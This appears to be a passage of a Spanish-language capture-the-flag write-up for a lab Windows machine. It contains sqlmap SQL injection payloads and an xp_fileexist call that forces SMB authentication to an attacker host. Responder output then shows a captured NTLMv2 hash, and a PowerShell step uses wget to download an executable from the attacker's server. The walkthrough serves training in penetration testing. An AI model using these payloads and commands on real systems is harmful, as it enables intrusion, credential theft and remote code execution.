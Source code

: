 ```
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 9242=9242

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 6303 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (6303=6303) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (7727=7727) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'
---
[14:02:53] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
[14:02:53] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
sql-shell> exec master..xp_fileexist '\\10.10.13.121\miau'-- -
exec master..xp_fileexist '\\10.10.13.121\miau'-- -:    'NULL'

```

En nuestra consola de responder veremos:

```
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1122334455667788:B9F9548A74894D13A0FC9DCCAD19ED75:0101000000000000300341DE69C5D401E59EA796893B59570000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000E520622AF481D040F54B36E7D48F871AAABD6B2FEF077311B50C0859DD35C8A90A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310033002E003100320031000000000000000000
[SMB] Requested Share     : \\10.10.13.121\IPC$
[*] Skipping previously captured hash for GIDDY\Stacy
[SMB] Requested Share     : \\10.10.13.121\TEST
```

Yei, ya tenemos el hash del usuario stacy. Ahora pasemos a romper la hash.

# hashcat


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService